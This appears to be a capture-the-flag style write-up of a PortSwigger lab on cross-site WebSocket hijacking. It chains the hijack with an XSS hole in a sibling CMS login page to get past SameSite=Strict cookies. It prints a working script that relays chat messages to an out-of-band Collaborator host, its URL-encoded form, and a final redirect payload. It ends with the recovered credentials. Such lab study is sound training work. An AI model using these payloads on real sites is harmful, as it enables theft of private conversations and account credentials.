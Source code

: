 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/1ec7b245-5d2e-485e-b5b8-7e3b48416e7e)

## Solution:

Now we go to the lab website:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/68c2ad54-decb-48c3-b4ce-b70f5aa14a93)

Ok, note that there is a “Live Chat” on the right-hand side on the top. We click that.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/514e4985-add3-4e01-8dca-c0124d2da8c0)

So we randomly input some words in the text box.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/f1866f73-9de5-48b4-87cc-e3a9a9391208)

This is because our browser has stored our sessions, and every time we visit this /chat webpage, our browser sends the session value.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a0920a08-6ade-44d7-b830-b204332b7066)

the SameSite=Strict property prevents the session from being sent if the web is visited through code (javascript) automatically. But if you are manually changing the address bar to visit the chat webpage, the session is allowed to be sent. And once you visit that /chat through code, your browser won’t send the session value and this value would be forgotten by your browser. This explains why refreshing does not see the chats.

In the browser, go to the exploit server and use the following template to create a script for a CSWSH proof of concept:

```
<script>
    var ws = new WebSocket('wss://0a4100c603102283819ca76500a000fc.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://jk73y2j1n3vpqqe19dxpne6sgjmaa0yp.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Because this exploit visits the /chat webpage by code, thus no sessions would be sent, and you can not see the chat history at all! Since now the session is already forgotten by our browser, we need to re-enter some words in the /chat webpage and sent that again to create some chat history.

This web page contains a cross-site scripting (XSS) vulnerability. You can execute arbitrary javascript code in the Username field.

Store and view the exploit .

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/d7e54ed1-4050-428b-81f5-bee83dbe8752)

In Burp, go back to the Collaborator tab and click Poll now. Observe that you have received an HTTP interaction, which indicates that you've opened a new live chat connection with the target site.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/0fbe1956-d16c-479f-abc5-2b63708eb810)

Notice that although you've confirmed the CSWSH vulnerability, you've only exfiltrated the chat history for a brand new session, which isn't particularly useful.

In the response, notice that the website explicitly specifies SameSite=Strict when setting session cookies. This prevents the browser from including these cookies in cross-site requests.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/bca8da30-ea7d-4873-97dc-3749fb2a8ce7)

## Identify an additional vulnerability in the same "site"

In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an Access-Control-Allow-Origin header, which reveals a sibling domain at cms-YOUR-LAB-ID.web-security-academy.net.

Recreate the CSWSH script that you tested on the exploit server earlier.

```
<script>
    var ws = new WebSocket('wss://0a4100c603102283819ca76500a000fc.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://jk73y2j1n3vpqqe19dxpne6sgjmaa0yp.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

URL encode the entire script.

```
%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%34%31%30%30%63%36%30%33%31%30%32%32%38%33%38%31%39%63%61%37%36%35%30%30%61%30%30%30%66%63%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%6a%6b%37%33%79%32%6a%31%6e%33%76%70%71%71%65%31%39%64%78%70%6e%65%36%73%67%6a%6d%61%61%30%79%70%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e
```

Go back to the exploit server and create a script that induces the viewer's browser to send the GET request you just tested, but use the URL-encoded CSWSH payload as the username parameter.
```
<script>
    document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything";
</script>
```

Final payload -

```
<script>
    document.location = "https://cms-0a4100c603102283819ca76500a000fc.web-security-academy.net/login?username=%3c%73%63%72%69%70%74%3e%0a%20%20%20%20%76%61%72%20%77%73%20%3d%20%6e%65%77%20%57%65%62%53%6f%63%6b%65%74%28%27%77%73%73%3a%2f%2f%30%61%34%31%30%30%63%36%30%33%31%30%32%32%38%33%38%31%39%63%61%37%36%35%30%30%61%30%30%30%66%63%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%63%68%61%74%27%29%3b%0a%20%20%20%20%77%73%2e%6f%6e%6f%70%65%6e%20%3d%20%66%75%6e%63%74%69%6f%6e%28%29%20%7b%0a%20%20%20%20%20%20%20%20%77%73%2e%73%65%6e%64%28%22%52%45%41%44%59%22%29%3b%0a%20%20%20%20%7d%3b%0a%20%20%20%20%77%73%2e%6f%6e%6d%65%73%73%61%67%65%20%3d%20%66%75%6e%63%74%69%6f%6e%28%65%76%65%6e%74%29%20%7b%0a%20%20%20%20%20%20%20%20%66%65%74%63%68%28%27%68%74%74%70%73%3a%2f%2f%6a%6b%37%33%79%32%6a%31%6e%33%76%70%71%71%65%31%39%64%78%70%6e%65%36%73%67%6a%6d%61%61%30%79%70%2e%6f%61%73%74%69%66%79%2e%63%6f%6d%27%2c%20%7b%6d%65%74%68%6f%64%3a%20%27%50%4f%53%54%27%2c%20%6d%6f%64%65%3a%20%27%6e%6f%2d%63%6f%72%73%27%2c%20%62%6f%64%79%3a%20%65%76%65%6e%74%2e%64%61%74%61%7d%29%3b%0a%20%20%20%20%7d%3b%0a%3c%2f%73%63%72%69%70%74%3e&password=anything";
</script>
```

Store and Deliver the exploit .

In Burp, go back to the Collaborator tab and click Poll now. Observe that you've received a number of new interactions, which contain your entire chat history.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/0b0efdb2-4c1e-4427-b23f-c4b0c459279d)

Study the HTTP interactions and notice that these contain the victim's chat history.Find a message containing the victim's username and password.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/acacd47f-34c2-4386-8e87-54b3aae8f301)

username =`carlos` password= `0ktldutg33rhkytt4jfs`

Use the newly obtained credentials to log in to the victim's account and the lab is solved.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/4238fe5b-ce5b-4a4d-b861-0452421c876c)

